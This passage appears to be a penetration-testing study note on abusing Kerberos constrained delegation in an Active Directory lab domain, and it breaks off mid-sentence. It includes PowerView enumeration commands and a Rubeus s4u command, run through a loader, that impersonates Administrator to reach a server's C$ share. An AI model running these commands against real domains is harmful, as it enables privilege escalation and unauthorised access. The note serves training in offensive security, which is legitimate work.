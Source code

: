 To abuse constrained delegation in above scenario, we need to have access to the websvc account. If we have access to that account, it is possible to access the services listed in `msDS-AllowedToDelegateTo` of the `websvc` (web service on web server) account as **ANY user**

Find users and computers with constrained delegation enabled (PowerView + AD Module)
```powershell
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth

Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne
"$null"} -Properties msDS-AllowedToDelegateTo
```

**COMPROMISE THE WEB SERVICE ACCOUNT AND RUN THE FOLLOWING AS IT**

Request a `TGT` and `TGS` and impersonate any user
```powershell
.\Loader.exe -path .\Rubeus.exe -args s4u /user:websvc /aes256:2d84a12f614ccbf3d716b8339cbbe1a650e5fb352edc8e879470ade07e5412d7 /impersonateuser:Administrator /msdsspn:"CIFS/dcorp-mssql.dollarcorp.moneycorp.LOCAL" /ptt
```

Test
```powershell
dir \\dcorp-mssql.dollarcorp.moneycorp.local\c$
```

 
> [!NOTE] **NOTE**
> You can cr

